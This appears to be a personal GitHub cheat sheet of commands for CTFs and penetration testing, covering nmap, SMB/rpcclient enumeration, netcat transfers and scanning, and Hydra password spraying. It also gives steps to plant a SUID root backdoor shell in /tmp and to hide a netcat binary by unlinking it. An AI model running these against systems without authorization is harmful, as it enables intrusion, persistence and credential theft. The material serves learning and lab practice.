 # Toolbox


@TODO: Add these to your toolbox!
Add references to Hydra
Vmsplice
Sudo -L


>My mission is to create a list of "goto's" for myself when I do CTF's, Incident Response, or other CyberSecurity based activities.

[Ports](#ports)

[Port Scanners](#port-scanners)

[SMB Stuff](#smb-stuff)

[Linux Goodies](#linux-goodies)

[Specifically Netcat](#specifically-netcat)

## Ports

___

## Port Scanners!

### Nmap

#### Host Discovery
`nmap --reason -sP 172.17.0.1-254`

___

## SMB Stuff!

#### enumerate shares, but you need a username
`smbclient -L 172.30.0.22 -U <username>`

#### enumerate target Windows system with rpcclient
`rpcclient 172.30.0.22 -U <username>`

#### rpcclient prompt once logged in
`rpcclient $>`

> All commands after this line will be from the `rpcclient $>` prompt, if you don't see that prompt don't progress

#### rpcclient help, type at rpcclient prompt, you will hit tab twice
`enum<tabtab>`

#### enumerating users on domain
`enumdomusers`

#### help also prints off a bunch of commands you can use
`help`

#### enumerate service info
`srvinfo`

#### enumerate information about password policies
`getdompwinfo`

#### enumerate information about user password policies
`getusrdompwinfo <RID>`


___

## Linux Goodies! 

#### create a copy of /bin/sh shell to the tmp directory and call it backdoor

`cp /bin/sh /tmp/backdoor`

#### want this file to execute as root so chmod it

`chmod 4111 /tmp/backdoor`

#### file should be red and look at the permissions they will have the SUID bit set

`ls -l backdoor`

#### /bin/sh binary attempts to stop people from gaining root access from a SETUID binary; override this setting by adding a -p option

`./backdoor -p`

#### find look for SUID root files on the system in the tmp directory by running this

`find /tmp -uid 0 -perm -4000 -print`

#### find other SUID root files on the system 

`find /bin -uid 0 -perm -4000 -print`

#### create a network listening process and unlink the executable associated with it

`cp /bin/nc /tmp/nc` copy the binary for netcat to whatever directory you want 

`unlink /tmp/nc` using the unlink command we unlink this file so it won't show up when you do the `ls -l` command

#### delete a user account

`userdel -rf <UserAccountName>`

#### check to see if you deleted said account (UID 0 because if we are adding accounts they are root, baby ;) )

`grep :0: /etc/passwd`

#### Make Linux's network card go into promiscuous mode (on/off switch)

`ip link seet eth0 promisc on`

#### Check log entries that indicates that the interface went into promiscuous mode

`dmesg | grep promisc`

#### search the current running processes for the netcat binary (could search any process I want netcat is a mere example)

`ps aux | grep /tmp/nc`

#### lsof 


### Specifically Netcat

#### Netcat: Data Transfers

##### Move file from listener back to client
listener: `nc -l -p 7777 < file`

client: `nc listenerIP 7777 > file`

##### Upload file from client to listener
listener: `nc -l -p 7777 > file`

client: `nc listenerIP 7777 < file`

#### Netcat: Port Scanning

`nc -v -w3 -z targetIP startport-endport`

### Hydra

#### Password Spraying
`hydra -L <useraccounts.txt> -P <wordlist.txt> smb://10.10.0.1` smb service, using a word list of useraccount names (maybe you get these names from account harvesting?) and a word list of possible passwords

`hydra -L <useraccounts.txt> -P <wordlist> ssh://10.10.75.1` ssh service, uwsing a word list of useraccount names, using a word list of passwords

`hydra -l <username> -p <password> ssh://10.10.75.1`  one username and one password

`hydra -l <username> -P <wordlist.txt> ssh://10.10.75.1` one user name and a password word list
